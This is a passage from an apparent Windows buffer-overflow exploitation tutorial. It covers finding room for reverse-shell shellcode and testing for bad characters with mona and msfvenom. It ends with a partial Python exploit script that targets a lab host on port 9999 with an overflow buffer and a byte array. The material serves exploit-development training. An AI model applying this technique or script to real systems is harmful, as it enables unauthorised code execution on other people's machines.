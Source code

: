 ```python
```


## Locating Space for Your Shellcode

As shown in the previous screenshot, we can see that our ESP register point towards our C’s, which is more than enough space for our shellcode. A standard reverse shell takes anywhere between 350 to 400 bytes of space.



## Checking for Bad Characters

As I explained in part 1:

Depending on the application, vulnerability type and protocols in use, there may be certain characters that can truncate our buffer, which are considered to be bad chars.

An example of a very common bad character (especially in buffer overflows caused by unchecked string copy operations) is the null byte (0x00).

0x00 is considered a bad because a null byte is also used to terminate a string copy operation, which would effectively truncate our buffer to wherever the first null byte appears.

The reason we want to get rid of bad chars is that when we generate our reverse shell using msfvenom we can luckily say which char is a bad one and msfvenom will get rid of it.

We can use mona to generate a byte array from 00 to FF and send this payload in our exploit instead of our C’s. To demonstrate how the buffer is truncated I will include the bad char \x00


![ec26002934b1e6be93fd1713ac634e03.png](/Windows-User-Mode-Exploit-Development-DEP-Part-4/e4bf8752a5c245e4b28f82c2d2e1ae20.png)


Now, let’s remove \x00 and test for any other bad characters, this process can take sometime depending on the how many bad characters there are, trial and error is the only way as far as I’m aware.

As you can see, there are no more bad chars other than `\x00`.


![Badchars.png](/Windows-User-Mode-Exploit-Development-DEP-Part-4/2179e60d7f4643e89616e6d7073d773f.png)

```python
import socket

# Target IP address and port
RHOST = "192.168.16.129"
RPORT = 9999


badchars = ("\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
"\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
"\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
"\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
"\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
"\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
"\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
"\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")
payload = "A" * 2003
payload += "B" * 4
payload += badchars
```